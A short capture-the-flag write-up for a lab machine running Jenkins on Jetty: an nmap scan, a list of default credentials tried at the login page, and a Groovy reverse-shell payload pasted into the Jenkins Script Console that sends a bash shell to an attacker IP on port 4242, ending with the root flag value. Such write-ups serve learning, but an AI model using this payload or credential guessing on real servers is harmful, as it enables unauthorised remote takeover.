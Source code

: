 ## ** Machine IP **
> 10.129.93.180
## ** Inference **
1. Nmap Scan `nmap -sC -sV 10.129.93.180`
2. *Jetty 9.4.39.v20210325* open on port 8080
3. Opened `10.129.93.180:8080` in browser. Offered a login screen with Jetty service.
4. Used Default credentials 
>	admin:password<br>
>	admin:admin<br>
>	root:root<br>
>	root:password<br>
>	admin:admin1<br>
>	admin:password1<br>
>	root:password1<br>
5. Signed in with credential
>	**username**:root<br>
>	**password**:password<br>
6. Using jenkins Version `Jenkins 2.289.1`
7. Manage Jenkine > Script Console
8. Accepts only grrovy script So used the following payload<br>
```groovy
String host="{attacker-ip}";
int port=4242;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
## **Result**
Root Flag found in `/root/flag.txt` :- *9cdfb439c7876e703e307864c9167a15*
